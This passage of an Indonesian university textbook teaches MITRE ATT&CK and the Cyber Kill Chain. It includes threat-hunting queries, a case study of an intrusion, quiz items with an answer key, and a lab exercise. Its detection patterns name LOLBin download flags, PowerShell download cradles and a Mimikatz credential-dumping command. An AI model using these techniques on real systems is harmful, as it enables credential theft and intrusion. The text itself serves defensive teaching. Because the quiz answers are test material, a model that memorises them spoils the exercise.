Sebelum MITRE ATT&CK, komunitas keamanan siber menghadapi masalah komunikasi yang serius. Ketika dua analis dari organisasi yang berbeda berbicara tentang serangan yang sama, mereka mungkin menggunakan istilah yang berbeda untuk teknik yang identik. Laporan insiden sulit dibandingkan. Kemampuan deteksi sulit dievaluasi secara objektif. Dan yang paling kritis: tidak ada cara standar untuk mengukur apakah pertahanan yang ada "cukup baik".

MITRE ATT&CK (*Adversarial Tactics, Techniques, and Common Knowledge*) lahir dari proyek penelitian internal MITRE pada 2013 yang bertujuan mendokumentasikan perilaku penyerang yang diamati dalam serangan nyata. Versi pertama yang dipublikasikan secara umum pada 2015 hanya mencakup teknik Windows. Kini, ATT&CK telah berkembang menjadi framework paling komprehensif dan paling banyak digunakan untuk mendokumentasikan, menganalisis, dan mengkomunikasikan perilaku penyerang.

ATT&CK bukan sekadar taksonomi akademis — ini adalah alat operasional yang digunakan setiap hari oleh analis SOC, tim red team, peneliti threat intelligence, dan developer produk keamanan di seluruh dunia. Memahami ATT&CK adalah kompetensi inti yang diharapkan dari setiap profesional keamanan siber level senior.

---

## 4. Landasan Teori

### 4.1 Struktur MITRE ATT&CK

**Definisi:**
> ATT&CK adalah basis pengetahuan yang dapat diakses secara global tentang taktik dan teknik adversari yang didasarkan pada observasi dunia nyata. ATT&CK digunakan sebagai dasar untuk pengembangan model ancaman dan metodologi yang spesifik dalam sektor swasta, pemerintah, dan komunitas keamanan siber.

**Komponen Utama ATT&CK:**

| Komponen | Deskripsi | Contoh |
|---|---|---|
| **Tactics** | *Mengapa* — tujuan taktis yang ingin dicapai penyerang | TA0006: Credential Access (mendapatkan credential) |
| **Techniques** | *Bagaimana* — cara umum untuk mencapai tujuan taktis | T1003: OS Credential Dumping |
| **Sub-Techniques** | Variasi lebih spesifik dari teknik | T1003.001: LSASS Memory |
| **Procedures** | Implementasi spesifik yang diamati dari kelompok/malware tertentu | APT29 menggunakan Mimikatz untuk dump LSASS |
| **Groups** | Kelompok ancaman yang terdokumentasi | APT28, APT29, Lazarus Group |
| **Software** | Malware dan tool yang digunakan | Mimikatz, Cobalt Strike, Empire |
| **Mitigations** | Kontrol yang dapat mengurangi efektivitas teknik | M1027: Password Policies |
| **Data Sources** | Sumber telemetri untuk mendeteksi teknik | Windows Event Logs, Network Traffic, Process Monitoring |

**Domain ATT&CK:**
- **Enterprise**: Windows, macOS, Linux, Cloud (AWS, Azure, GCP), SaaS, Office365, Google Workspace, Containers
- **Mobile**: Android, iOS
- **ICS (Industrial Control Systems)**: SCADA, PLCs, HMIs

### 4.2 14 Taktik ATT&CK Enterprise

Taktik merepresentasikan tujuan taktis penyerang — *mengapa* mereka melakukan suatu tindakan. Setiap taktik biasanya merupakan bagian dari urutan yang lebih besar (meskipun urutan tidak selalu linier).

| ID | Taktik | Deskripsi | Pertanyaan yang Dijawab |
|---|---|---|---|
| **TA0043** | Reconnaissance | Mengumpulkan informasi untuk perencanaan serangan | "Apa yang dapat diketahui tentang target?" |
| **TA0042** | Resource Development | Membangun infrastruktur untuk mendukung serangan | "Apa yang diperlukan untuk melancarkan serangan?" |
| **TA0001** | Initial Access | Mendapatkan pijakan pertama di jaringan | "Bagaimana masuk ke jaringan target?" |
| **TA0002** | Execution | Menjalankan kode berbahaya | "Bagaimana mengeksekusi payload?" |
| **TA0003** | Persistence | Mempertahankan akses meskipun sistem di-restart | "Bagaimana tetap ada di sistem?" |
| **TA0004** | Privilege Escalation | Mendapatkan hak yang lebih tinggi | "Bagaimana mendapatkan akses SYSTEM/root?" |
| **TA0005** | Defense Evasion | Menghindari deteksi dan kontrol keamanan | "Bagaimana menghindari deteksi?" |
| **TA0006** | Credential Access | Mencuri credential untuk autentikasi | "Bagaimana mendapatkan password/token?" |
| **TA0007** | Discovery | Mempelajari lingkungan target | "Apa yang ada di jaringan ini?" |
| **TA0008** | Lateral Movement | Bergerak ke sistem lain dalam jaringan | "Bagaimana menjangkau target yang sebenarnya?" |
| **TA0009** | Collection | Mengumpulkan data yang menjadi target | "Bagaimana mengumpulkan data yang diinginkan?" |
| **TA0011** | Command & Control | Komunikasi dengan sistem yang dikompromikan | "Bagaimana mengendalikan sistem yang dikompromikan?" |
| **TA0010** | Exfiltration | Memindahkan data yang dikumpulkan keluar | "Bagaimana mengirimkan data ke penyerang?" |
| **TA0040** | Impact | Memengaruhi ketersediaan atau integritas | "Apa dampak akhir yang diinginkan?" |

### 4.3 Teknik dan Sub-Teknik Penting

#### Initial Access (TA0001)
| Kode | Teknik | Deskripsi | Mitigasi Utama |
|---|---|---|---|
| T1566 | Phishing | Email dengan attachment atau link berbahaya | Email filtering, user training, MFA |
| T1566.001 | Spear Phishing Attachment | File berbahaya dalam email bertarget | Sandbox attachment analysis |
| T1566.002 | Spear Phishing Link | Link ke situs berbahaya dalam email bertarget | URL filtering, proxy |
| T1190 | Exploit Public-Facing App | Eksploitasi kerentanan di aplikasi yang terekspos | Patch management, WAF |
| T1133 | External Remote Services | Akses melalui VPN, RDP, VNC dengan credential curian | MFA, strong passwords |
| T1195 | Supply Chain Compromise | Kompromi melalui software vendor atau supplier | Supply chain security, SBOM |

#### Credential Access (TA0006)
| Kode | Teknik | Deskripsi | Mitigasi Utama |
|---|---|---|---|
| T1003 | OS Credential Dumping | Mengekstrak credential dari OS | Credential Guard, Protected Users |
| T1003.001 | LSASS Memory | Dump credential dari proses LSASS | EDR, Protected Process Light |
| T1110 | Brute Force | Percobaan credential berulang | Account lockout, MFA |
| T1555 | Credentials from Password Stores | Mencuri dari browser, vault | Privileged Access Workstation |
| T1539 | Steal Web Session Cookie | Mencuri session token | Secure cookie flags, SameSite |

#### Defense Evasion (TA0005)
| Kode | Teknik | Deskripsi | Mitigasi Utama |
|---|---|---|---|
| T1055 | Process Injection | Menyuntikkan kode ke proses legitimate | EDR, application control |
| T1218 | System Binary Proxy Execution | Menggunakan tool sistem (LOLBins) | Application whitelisting |
| T1562 | Impair Defenses | Mematikan AV, logging, firewall | Protected logging, SIEM |
| T1027 | Obfuscated Files or Information | Menyembunyikan payload dengan obfuskasi | AMSI, content inspection |

### 4.4 ATT&CK Navigator

ATT&CK Navigator adalah alat web-based yang memungkinkan visualisasi dan annotasi pada ATT&CK matrix. Penggunaan utamanya:

1. **Coverage Mapping**: Warna-kan teknik berdasarkan apakah kontrol atau deteksi yang ada sudah mencakupnya
2. **Group Profiling**: Visualisasi TTP yang digunakan oleh kelompok ancaman spesifik
3. **Threat Modeling**: Identifikasi teknik yang paling relevan untuk skenario ancaman tertentu
4. **Gap Analysis**: Mengidentifikasi teknik yang belum dicakup oleh kemampuan deteksi

**Cara Akses:** `https://mitre-attack.github.io/attack-navigator/`

### 4.5 Menggunakan ATT&CK untuk Threat Hunting

**Threat Hunting** adalah proses proaktif mencari tanda-tanda kompromi yang belum terdeteksi dalam jaringan, berdasarkan hipotesis yang dikembangkan dari intelijen ancaman.

**Proses Threat Hunt Berbasis ATT&CK:**

1. **Pilih kelompok ancaman yang relevan**: Berdasarkan profil industri dan geografi, identifikasi APT atau cybercriminal yang paling mungkin menargetkan organisasi Anda
2. **Identifikasi TTP yang digunakan**: Dari profil ATT&CK kelompok tersebut, pilih 5-10 teknik yang paling sering digunakan
3. **Kembangkan hipotesis**: "Jika APT28 menargetkan kami dan menggunakan T1003.001, tanda-tanda apa yang akan kita lihat di log?"
4. **Tentukan data source**: Log Windows Event apa? SIEM alert apa? EDR telemetry apa?
5. **Eksekusi hunt**: Cari tanda-tanda teknik tersebut dalam data historis
6. **Dokumentasikan temuan**: Baik temuan positif maupun negatif — temuan negatif membuktikan bahwa teknik tersebut tidak terdeteksi (bisa jadi tidak ada, atau bisa jadi ada tapi tidak terdeteksi)

---

## 5. Model atau Arsitektur

### 5.1 ATT&CK Enterprise Matrix — Struktur Taktik



### 5.2 ATT&CK untuk Deteksi — Mapping Teknik ke Data Source



---

## 6. Contoh Terapan

### Studi Kasus: Threat Hunting di Lingkungan SOC — Deteksi Teknik Living-off-the-Land

**Konteks:**
SOC sebuah perusahaan telekomunikasi menerima intelijen bahwa kelompok ancaman yang menargetkan sektor mereka menggunakan teknik *Living-off-the-Land* (LOLbins) — menggunakan tool bawaan Windows (PowerShell, WMI, certutil, mshta) untuk menghindari deteksi antivirus.

**TTP yang Akan Di-hunt (berdasarkan ATT&CK):**
- **T1059.001**: Command and Script Interpreter: PowerShell
- **T1047**: Windows Management Instrumentation
- **T1218.005**: System Binary Proxy Execution: mshta
- **T1140**: Deobfuscate/Decode Files or Information (certutil -decode)

**Hipotesis Hunt:**
"Jika penyerang menggunakan LOLbins untuk eksekusi, kita akan melihat PowerShell atau WMI yang diluncurkan dengan parameter yang tidak biasa, terutama yang menggunakan encoded commands atau yang mengunduh konten dari internet."

**Data Sources yang Digunakan:**
- Sysmon Event ID 1 (Process Creation) — dengan CommandLine logging
- Windows Event ID 4104 (PowerShell Script Block Logging)
- SIEM: Splunk dengan sumber data dari Windows Event Log

**Query Hunt (Pseudocode):**
```
# Hunt untuk PowerShell dengan encoded command
Event ID 4104 AND CommandLine CONTAINS "-encodedcommand" OR "-enc " OR "-e "
WHERE Parent Process NOT IN [known_legitimate_parents]
TIMEFRAME: Last 30 days

# Hunt untuk certutil sebagai downloader
Event ID 1 (Process Creation)
WHERE Image = "certutil.exe"
AND CommandLine CONTAINS "-urlcache" OR "-decode" OR "-split"
TIMEFRAME: Last 30 days

# Hunt untuk WMI lateral movement
Event ID 4688 OR Sysmon Event 1
WHERE Image = "wmic.exe"
AND CommandLine CONTAINS "/node:" (akses remote)
TIMEFRAME: Last 30 days
```

**Hasil Hunt:**
- Ditemukan 3 instance PowerShell encoded command yang tidak dikenali dalam 30 hari terakhir, semua berasal dari satu workstation (PC-FINANCE-03)
- Dilakukan investigasi mendalam: ditemukan bahwa workstation tersebut menjalankan payload berbahaya yang tersembunyi dalam dokumen Excel yang diterima melalui email
- Payload telah beroperasi selama 11 hari sebelum ditemukan — merupakan dwell time yang signifikan

**Implikasi:**
Deteksi berbasis LOLbins ini tidak mungkin dilakukan dengan antivirus signature-based tradisional. Teknik ATT&CK-based threat hunting terbukti efektif mendeteksi ancaman yang sudah melewati kontrol preventif.

---

## 7. Praktikum atau Aktivitas Terarah

### Praktikum 5.1: ATT&CK Mapping menggunakan Navigator

**Tujuan:**
Memetakan TTP dari skenario serangan ke ATT&CK Matrix menggunakan Navigator, dan mengidentifikasi kesenjangan dalam coverage deteksi.

**Prasyarat:**
- Browser modern
- Akses ke https://mitre-attack.github.io/attack-navigator/
- Laporan kasus serangan yang diberikan dosen

**Langkah Kerja:**

1. **Buka ATT&CK Navigator** dan pilih "Enterprise ATT&CK v15"

2. **Buat layer baru** (New Layer → Enterprise ATT&CK)

3. **Baca skenario serangan** yang diberikan (contoh: SolarWinds, Colonial Pipeline, atau ransomware campaign yang dipilih dosen)

4. **Identifikasi teknik** yang digunakan dalam setiap fase serangan

5. **Tandai teknik** dalam Navigator:
   - Warna **merah**: Teknik yang digunakan penyerang
   - Warna **hijau**: Teknik yang dapat dideteksi oleh kontrol yang ada
   - Teknik tanpa warna: Tidak relevan atau tidak ada coverage

6. **Analisis gap**: Teknik merah yang tidak memiliki hijau = gap dalam coverage

7. **Export** layer sebagai JSON dan screenshot untuk laporan

8. **Tulis rekomendasi** untuk menutup 3 gap yang paling kritis

**Kriteria Keberhasilan:**
- Mapping yang akurat (minimal 10 teknik dari skenario)
- Gap analysis yang terstruktur
- Rekomendasi yang spesifik dan dapat diimplementasikan

⚠️ **Catatan Etika:**
ATT&CK digunakan untuk *memahami dan bertahan* terhadap teknik penyerang. Pemahaman tentang teknik serangan dalam konteks ATT&CK bertujuan defensif — meningkatkan deteksi dan respons, bukan memfasilitasi serangan.

---

## 8. Latihan Pemahaman

**Soal 1 (Pilihan Ganda)**

Penyerang berhasil masuk ke jaringan melalui spear phishing, lalu menggunakan PowerShell untuk mengunduh payload tambahan. Taktik ATT&CK mana yang PALING TEPAT mendeskripsikan penggunaan PowerShell untuk mengunduh payload?

A. Initial Access (TA0001)  
B. Execution (TA0002)  
C. Persistence (TA0003)  
D. Defense Evasion (TA0005)  

---

**Soal 2 (Pilihan Ganda)**

Penyerang menggunakan teknik T1003.001 (LSASS Memory Dump). Data source UTAMA yang harus dikonfigurasi untuk mendeteksi teknik ini adalah:

A. Network Flow Analysis  
B. DNS Query Logging  
C. Process Access Monitoring (Sysmon Event ID 10)  
D. File Integrity Monitoring  

---

**Soal 3 (Esai Singkat)**

Jelaskan perbedaan antara Tactics, Techniques, dan Procedures (TTP) dalam konteks MITRE ATT&CK. Berikan satu contoh konkret yang menggambarkan ketiga level tersebut dalam satu serangan. (150-200 kata)

---

**Soal 4 (Pemetaan)**

Diberikan deskripsi tindakan penyerang berikut. Petakan setiap tindakan ke taktik ATT&CK yang paling sesuai:
a) Penyerang mengirim email dengan lampiran PDF berbahaya kepada karyawan
b) Penyerang membuat scheduled task untuk memastikan malware berjalan setiap kali sistem restart
c) Penyerang menggunakan WMI untuk berpindah ke server file dari workstation yang dikompromikan
d) Penyerang mengenkripsi semua file di server dan meninggalkan ransom note
e) Penyerang memindai seluruh subnet untuk menemukan server yang terhubung ke domain

---

**Soal 5 (Analisis Coverage)**

Sebuah SOC memiliki kemampuan deteksi berikut: (1) Antivirus signature-based, (2) Firewall log analysis, (3) Windows Event Log collection. Teknik ATT&CK mana dari daftar ini yang kemungkinan besar TIDAK DAPAT dideteksi dengan kemampuan tersebut, dan mengapa?
- T1566.001 (Spear Phishing Attachment)
- T1059.001 (PowerShell dengan encoded command)
- T1027 (Obfuscated Files)
- T1110 (Brute Force pada login page)

---

## 9. Latihan Terapan / Studi Kasus

### Studi Kasus 1: Rekonstruksi Serangan Menggunakan ATT&CK

Berdasarkan log yang dikumpulkan selama investigasi insiden, tim forensik menemukan informasi berikut secara kronologis:

1. Email dengan lampiran ".xlsx" berbahaya dikirim ke 5 karyawan HR; 1 orang membukanya
2. Dokumen Excel meluncurkan macro yang menjalankan PowerShell untuk mengunduh payload dari `192.168.ex.100` (IP server eksternal)
3. PowerShell script mengekstrak credential dengan mengakses proses lsass.exe
4. Menggunakan credential yang didapat, penyerang login ke server SQL via RDP
5. Penyerang membuat akun baru dengan nama "svc_backup" dan menambahkannya ke grup Administrators
6. Data nasabah diekstrak dari database SQL dan dikompres menggunakan 7-zip
7. File terkompresi diunggah melalui HTTPS ke `filehosting.example.com`

**Pertanyaan:**

1. **Rekonstruksi ATT&CK (C4)**: Buat tabel yang memetakan setiap langkah ke Taktik dan Teknik ATT&CK yang spesifik (dengan kode T-XXXX). Jelaskan *mengapa* setiap mapping tersebut tepat.

2. **Rekomendasi Deteksi (C5)**: Untuk setiap teknik yang diidentifikasi, rekomendasikan satu data source dan satu detection rule atau alerting logic yang dapat mendeteksi teknik tersebut sebelum tahap eksfiltrasi.

---

## 10. Kunci Jawaban dan Pembahasan

### Soal 1 — Kunci: **B. Execution (TA0002)**

Penggunaan PowerShell untuk mengunduh dan menjalankan payload adalah tindakan *eksekusi kode* pada sistem yang sudah diakses. Meskipun serangan dimulai dengan Initial Access (spear phishing), tindakan spesifik yang ditanyakan — PowerShell menjalankan script — adalah Execution. Teknik spesifiknya adalah T1059.001 (Command and Script Interpreter: PowerShell).

---

### Soal 2 — Kunci: **C. Process Access Monitoring (Sysmon Event ID 10)**

T1003.001 melibatkan pembacaan memori proses LSASS. Sysmon Event ID 10 (ProcessAccess) mencatat ketika suatu proses mengakses proses lain — ini adalah data source yang paling langsung untuk mendeteksi dump LSASS. Alert dapat dikonfigurasi untuk: "Any process accessing lsass.exe with GrantedAccess rights that include PROCESS_VM_READ, except for known legitimate processes (antivirus, EDR agents)".

---

### Soal 3 — Panduan Jawaban

**Tactics**: Tujuan taktis tingkat tinggi yang ingin dicapai penyerang. Bersifat abstrak. Contoh: "Credential Access" — penyerang ingin mendapatkan credential.

**Techniques**: Cara umum untuk mencapai tujuan taktis tersebut. Bersifat generik. Contoh: "T1003 — OS Credential Dumping" — mendapatkan credential dengan mengekstrak dari OS.

**Procedures**: Implementasi spesifik yang diamati dari aktor ancaman atau malware tertentu. Bersifat konkret. Contoh: "APT29 menggunakan Mimikatz dengan perintah `sekurlsa::logonpasswords` untuk mengekstrak credential dari LSASS pada target Windows Server 2019."

Hubungannya: Tactic → "Mengapa?", Technique → "Bagaimana secara umum?", Procedure → "Bagaimana tepatnya dalam kasus ini?"

---

### Soal 4 — Pemetaan

a) Email dengan lampiran PDF berbahaya → **TA0001 Initial Access**, T1566.001 (Spear Phishing Attachment)
b) Scheduled task untuk persistensi → **TA0003 Persistence**, T1053.005 (Scheduled Task)
c) WMI untuk berpindah ke server lain → **TA0008 Lateral Movement**, T1047 (Windows Management Instrumentation)
d) Enkripsi file dan ransom note → **TA0040 Impact**, T1486 (Data Encrypted for Impact)
e) Pemindaian subnet → **TA0007 Discovery**, T1046 (Network Service Discovery)

---

### Soal 5 — Analisis Coverage

| Teknik | Terdeteksi? | Alasan |
|---|---|---|
| T1566.001 (Spear Phishing Attachment) | **Sebagian** — AV mungkin mendeteksi lampiran berbahaya yang diketahui, tetapi tidak untuk zero-day atau file yang diobfuskasi | |
| T1059.001 (PowerShell encoded) | **Sangat sulit** — Antivirus signature tidak mengenali kode yang di-encode; Event Log standar tidak mencatat konten script; butuh PowerShell Script Block Logging (4104) yang tidak disebutkan ada | |
| T1027 (Obfuscated Files) | **Tidak** — Obfuskasi dirancang untuk melewati signature-based detection; firewall dan event log tidak menganalisis konten | |
| T1110 (Brute Force) | **Ya** — Firewall log dapat mendeteksi login attempt berulang; Windows Event Log (4625: Failed Logon) dapat digunakan untuk alerting | |

---

### Studi Kasus 1 — Panduan Jawaban

| Langkah | Taktik | Kode Teknik | Teknik |
|---|---|---|---|
| 1. Email lampiran xlsx berbahaya | Initial Access | T1566.001 | Spear Phishing Attachment |
| 2. Macro → PowerShell download payload | Execution | T1059.001 + T1204.002 | PowerShell + User Execution: Malicious File |
| 3. PowerShell → akses lsass.exe | Credential Access | T1003.001 | LSASS Memory |
| 4. Login ke server SQL via RDP | Lateral Movement | T1021.001 | Remote Desktop Protocol |
| 5. Buat akun "svc_backup" + Administrators | Persistence + Privilege Escalation | T1136.001 + T1098 | Create Account: Local + Account Manipulation |
| 6. Ekstrak data SQL + kompres 7-zip | Collection | T1005 + T1560.001 | Data from Local System + Archive Collected Data |
| 7. Upload HTTPS ke file hosting | Exfiltration | T1048.002 | Exfiltration Over Web Service: HTTPS |

**Rekomendasi Deteksi per Teknik:**

| Teknik | Data Source | Detection Rule |
|---|---|---|
| T1566.001 | Email gateway logs | Alert: attachment ekstensi .xlsx dari pengirim eksternal kepada HR dept → sandbox |
| T1059.001 | PowerShell Script Block Log (Event 4104) | Alert: PowerShell dengan `-encodedcommand` atau download cradle (`IEX`, `DownloadString`) |
| T1003.001 | Sysmon Event ID 10 | Alert: proses selain AV/EDR mengakses lsass.exe dengan PROCESS_VM_READ |
| T1021.001 | Windows Event Log 4624 + 4648 | Alert: RDP login dari workstation (bukan server) dengan credential berbeda dari usual |
| T1136.001 | Windows Event Log 4720 + 4732 | Alert: akun baru dibuat dan ditambahkan ke Administrators dalam 5 menit |

---

## 11. Ringkasan Bab

MITRE ATT&CK menyediakan bahasa standar dan basis pengetahuan yang komprehensif untuk mendeskripsikan perilaku penyerang. Dengan 14 taktik, ratusan teknik dan sub-teknik, serta ribuan prosedur yang didokumentasikan dari observasi nyata, ATT&CK telah menjadi lingua franca komunitas keamanan siber global.

Nilai ATT&CK tidak terletak pada hapalan taktik dan teknik, melainkan pada kemampuan untuk *mengaplikasikannya* — untuk memetakan serangan yang diamati ke framework, mengidentifikasi kesenjangan dalam coverage deteksi, dan mengembangkan hipotesis threat hunting yang tepat sasaran.

ATT&CK Navigator adalah alat visualisasi yang memungkinkan analisis interaktif dari coverage dan gap. Dengan memetakan kemampuan deteksi yang ada ke matrix ATT&CK, tim keamanan dapat secara objektif mengidentifikasi teknik mana yang paling rentan terhadap blind spot.

---

## 12. Refleksi Profesional

**Pertanyaan Refleksi 1:**
ATT&CK adalah framework terbuka yang tersedia untuk semua pihak — defender maupun attacker. Apakah ini merupakan kelemahan yang seharusnya diatasi dengan membatasi akses, atau justru kekuatan karena transparansi meningkatkan kualitas defense secara keseluruhan? Apa argumen terkuat untuk setiap posisi?

**Pertanyaan Refleksi 2:**
Threat hunting proaktif berdasarkan ATT&CK membutuhkan kemampuan analitik tinggi dan akses ke telemetri yang kaya (EDR, SIEM). Untuk organisasi kecil atau instansi pemerintah daerah yang tidak memiliki SOC atau budget EDR, bagaimana ATT&CK masih dapat memberikan nilai? Apa versi paling sederhana dari "ATT&CK-informed defense" yang dapat diterapkan dengan sumber daya minimal?

---

# BAB 6 — CYBER KILL CHAIN: REKONSTRUKSI DAN ANALISIS SERANGAN SIBER

**Pertemuan:** 6  
**Sub-CPMK:** Sub-CPMK.2  
**CPMK:** CPMK.2  
**Evaluasi:** Eval-2 (Rekonstruksi Kill Chain, 10%)

---

## 1. Capaian Pembelajaran Bab

Setelah menyelesaikan Bab 6, mahasiswa mampu:

- Menjelaskan tujuh fase Cyber Kill Chain dan tujuan penyerang di setiap fase.
- Merekonstruksi urutan serangan nyata menggunakan model Cyber Kill Chain.
- Mengidentifikasi titik intervensi defensif (*break points*) di setiap fase Kill Chain.
- Membandingkan Cyber Kill Chain dengan MITRE ATT&CK sebagai model analisis serangan.
- Merancang strategi pertahanan berlapis berbasis Kill Chain.

*Kaitan OBE: Sub-CPMK.2 → CPMK.2 → IK-5.a → CPL5 → Eval-2*

---

## 2. Peta Konsep Bab



---

## 3. Pengantar Kontekstual

Model Cyber Kill Chain dikembangkan oleh Lockheed Martin pada 2011, diadaptasi dari konsep militer *Kill Chain* yang mendeskripsikan urutan langkah yang diperlukan untuk menghancurkan target. Dalam konteks siber, Kill Chain memberikan kerangka untuk memahami bahwa serangan siber yang sukses bukan kejadian tunggal — melainkan serangkaian langkah yang harus berhasil secara berurutan.

Implikasi kritis dari model ini: **penyerang perlu berhasil di semua fase, sementara defender hanya perlu berhasil di SATU fase untuk menggagalkan serangan**. Ini mengubah perspektif dari "mencegah semua serangan" menjadi "menciptakan hambatan di setiap fase sehingga probabilitas keberhasilan serangan secara keseluruhan sangat rendah".

Model ini juga mengajarkan tentang biaya asimetris pertahanan: intervensi di fase awal (Reconnaissance, Weaponization) lebih murah dan lebih efektif daripada intervensi di fase akhir (Actions on Objectives). Setelah penyerang mencapai fase Actions on Objectives, kerusakan sudah hampir pasti terjadi — yang tersisa hanya damage control.

---

## 4. Landasan Teori

### 4.1 Tujuh Fase Cyber Kill Chain

#### Fase 1: Reconnaissance (Pengintaian)

**Tujuan Penyerang:** Mengumpulkan informasi sebanyak mungkin tentang target untuk merencanakan serangan yang efektif.

**Teknik:**
- **OSINT (Open Source Intelligence)**: Informasi publik dari website, LinkedIn, job postings, GitHub, Shodan
- **Social engineering recon**: Telepon atau email untuk mendapatkan informasi internal
- **Technical scanning**: Whois lookup, DNS enumeration, port scanning pada IP publik

**Informasi yang Dikumpulkan:**
- Email karyawan dan format email perusahaan
- Teknologi yang digunakan (stack teknologi dari job posting, header HTTP dari web)
- Struktur organisasi dan jabatan kunci
- Alamat IP publik dan layanan yang terekspos
- Software dan versi yang digunakan

**Titik Intervensi Defensif:**
- Minimalisasi jejak digital (*attack surface reduction*): hapus informasi sensitif dari website
- Monitoring OSINT tentang informasi organisasi yang beredar di internet
- Honeypot email untuk mendeteksi upaya recon
- Shodan dan FOFA alerts untuk memantau apa yang terekspos dari IP publik perusahaan

#### Fase 2: Weaponization (Persenjataan)

**Tujuan Penyerang:** Membuat atau mengadaptasi senjata siber (exploit + payload) berdasarkan informasi yang dikumpulkan.

**Teknik:**
- Mengkombinasikan exploit (untuk eksploitasi kerentanan) dengan payload (kode yang dijalankan setelah eksploitasi)
- Membuat dokumen berbahaya (macro Excel, PDF dengan exploit, HTA file)
- Membangun infrastruktur C2 (domain, server, jaringan)
- Menguji payload terhadap antivirus untuk memastikan evasion

**Titik Intervensi Defensif:**
- Threat intelligence: mengonsumsi laporan tentang exploit dan payload baru
- Monitoring komunitas keamanan untuk kerentanan yang sedang dieksploitasi
- Organisasi tidak dapat langsung mengintervensi fase ini, tetapi dapat mengurangi *area of interest* bagi penyerang

#### Fase 3: Delivery (Pengiriman)

**Tujuan Penyerang:** Mengirimkan senjata yang telah dibuat ke lingkungan target.

**Vektor Pengiriman Paling Umum:**
1. **Email** (attachment berbahaya atau tautan phishing) — paling dominan
2. **Web** (drive-by download dari situs yang dikompromikan atau watering hole)
3. **USB** (fisik — efektif untuk target air-gapped)
4. **Supply chain** (update software yang dikompromikan)
5. **Exploitation langsung** (langsung mengeksploitasi service yang terekspos internet)

**Titik Intervensi Defensif:**
- Email gateway dengan sandboxing dan URL rewriting
- Web proxy dengan inspeksi konten
- DNS filtering untuk blokir domain berbahaya
- USB control policy
- Antivirus dan anti-malware di endpoint

#### Fase 4: Exploitation (Eksploitasi)

**Tujuan Penyerang:** Mengaktifkan exploit pada sistem target untuk mendapatkan akses awal.

**Mekanisme:**
- User membuka dokumen berbahaya → macro dieksekusi
- User mengklik link phishing → browser exploit atau credential harvesting
- Exploit otomatis terhadap service yang rentan → remote code execution

**Titik Intervensi Defensif:**
- Patch management untuk menutup kerentanan yang dieksploitasi
- Hardening aplikasi: disable macro by default, sandbox browser
- Application control (hanya izinkan aplikasi yang diotorisasi)
- WAF untuk aplikasi web
- Anti-exploit technologies (DEP, ASLR, Control Flow Guard)

#### Fase 5: Installation (Instalasi)

**Tujuan Penyerang:** Menginstal malware atau backdoor untuk memastikan persistensi — kemampuan untuk kembali ke sistem bahkan setelah restart atau perubahan password.

**Teknik Persistensi:**
- Registry Run keys (`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`)
- Scheduled Tasks
- Windows Services
- DLL hijacking
- Bootkit/rootkit
- Legitimate cloud services sebagai C2 channel (Google Drive, Dropbox)

